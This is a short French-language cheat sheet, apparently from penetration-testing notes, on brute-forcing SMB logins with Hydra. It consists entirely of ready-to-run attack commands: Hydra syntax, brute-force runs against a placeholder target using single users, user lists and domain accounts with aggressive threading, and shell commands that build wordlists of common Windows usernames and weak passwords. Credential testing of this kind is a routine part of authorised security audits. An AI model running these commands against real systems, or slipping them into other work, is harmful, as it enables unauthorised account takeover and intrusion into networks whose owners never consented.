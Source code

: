 ### Syntaxe Hydra pour SMB
```bash
hydra [OPTIONS] smb://target
```

### Brute force SMB avec Hydra
```bash
# Brute force utilisateur unique
hydra -l administrator -P passwords.txt smb://target

# Brute force liste d'utilisateurs
hydra -L users.txt -P passwords.txt -t 16 -f smb://target

# Avec domaine spécifique
hydra -l 'DOMAIN\username' -P passwords.txt smb://target

# Options recommandées SMB
hydra -L users.txt -P passwords.txt -t 16 -f -V -o smb_results.txt smb://target
```

### Wordlists SMB spécialisées
```bash
# Utilisateurs Windows courants
cat > smb_users.txt << EOF
administrator
admin
guest
user
backup
service
operator
support
test
demo
EOF

# Mots de passe Windows/SMB courants
cat > smb_passwords.txt << EOF
password
Password123
admin
123456
password123
administrator
guest
user
welcome
qwerty
letmein
Password1
Admin123
EOF
```

---